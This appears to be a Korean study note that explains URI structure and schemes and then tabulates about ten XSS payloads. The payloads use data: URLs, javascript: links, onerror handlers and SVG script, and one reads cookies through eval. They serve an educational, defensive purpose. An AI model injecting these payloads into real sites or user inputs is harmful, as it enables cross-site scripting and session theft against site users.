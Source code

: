 ### 🎀 URI의 구성:

일반적으로 URI는 다음과 같은 형식으로 구성됩니다:

```
<스킴>://<호스트>/<경로>?<쿼리>#<프래그먼트>
```

예를 들어, `https://www.example.com:8080/path?query=1#fragment`

* **https**는 스킴
* \*\*[www.example.com\*\*은](http://www.example.com**은) 호스트
* **8080**은 포트
* **/path**는 경로
* **query=1**은 쿼리 파라미터
* **fragment**는 프래그먼트

**URI 스킴** (Uniform Resource Identifier Scheme)은 URI (Uniform Resource Identifier)의 한 부분으로, 리소스가 어떤 프로토콜을 사용해 접근되는지를 지정하는 역할을 합니다. URI는 웹 주소와 같은 자원의 위치를 나타내는데, 스킴은 이 자원에 접근하는 방법을 정의합니다.

예를 들어, URL(Uniform Resource Locator)은 URI의 일종이며, 그 안에서 스킴은 "http", "https", "ftp" 등으로 나타냅니다. 스킴은 리소스를 식별할 수 있는 방법을 알려주는 것이죠.

### URI 스킴의 예:

1. **http** – 웹 페이지를 요청할 때 사용하는 스킴 (예: `http://example.com`)
2. **https** – 보안된 웹 페이지 요청 시 사용하는 스킴 (예: `https://example.com`)
3. **ftp** – 파일 전송 프로토콜을 사용하여 파일을 접근할 때 사용하는 스킴 (예: `ftp://ftp.example.com`)
4. **mailto** – 이메일 주소를 나타낼 때 사용하는 스킴 (예: `mailto:user@example.com`)
5. **file** – 로컬 파일 시스템에서 파일을 접근할 때 사용하는 스킴 (예: `file:///C:/path/to/file`)

URI 스킴을 통해 리소스를 어떻게 접근할 수 있는지, 어떤 프로토콜이나 규칙을 사용해야 하는지 알려주기 때문에 웹에서 자원과의 상호작용에 중요한 역할을 합니다.

---

## 💻 `data:` URL을 이용한 XSS 공격 주요 페이로드 정리

| **페이로드**                                                                                                                           | **설명**                                                         |
| ---------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------- |
| `<iframe src="data:text/html,<script>alert('XSS! Data URL을 통해 실행됨');</script>"></iframe>`                                          | \*\*`<iframe>`\*\*을 이용해 \*\*`data URL`\*\*로 **XSS** 실행         |
| `<img src="data:image/svg+xml,<svg xmlns='http://www.w3.org/2000/svg'><a href='javascript:alert(`Clicked!`)'>Click Me</a></svg>">` | \*\*`<img>`\*\*에 **SVG**를 삽입해 **자바스크립트 실행**                    |
| `<a href="javascript:alert('XSS Attack!')">Click Me</a>`                                                                           | **링크** 클릭 시 **자바스크립트 코드** 실행                                   |
| `<img src="x" onerror="alert('XSS via onerror')">`                                                                                 | **`<img>`** 태그에서 **`onerror` 이벤트**를 사용한 **XSS**                |
| `<input type="image" src="x" onerror="alert('XSS!')">`                                                                             | \*\*`<input type="image">`\*\*에서 **`onerror` 이벤트**로 **XSS** 실행 |
| `<svg><script>alert('XSS via SVG')</script></svg>`                                                                                 | **SVG** 안에서 \*\*`<script>`\*\*를 이용한 **XSS**                    |
| `<a href="javascript:eval('alert(document.cookie)')">Click Me</a>`                                                                 | \*\*`eval()`\*\*을 사용해 **쿠키 탈취**를 시도하는 **XSS**                  |
| `<body background="javascript:alert('XSS')">`                                                                                      | **`background` 속성**을 통해 **자바스크립트** 실행                          |
| `<a href="data:text/html,<script>alert('XSS from Data URL!')</script>">Click Me</a>`                                               | **`data:` URL**을 활용한 링크 클릭 시 **XSS**                           |
| `<script src="javascript:alert('XSS')"></script>`                                                                                  | **`<script>`** 태그를 이용한 **자바스크립트 코드** 실행                        |
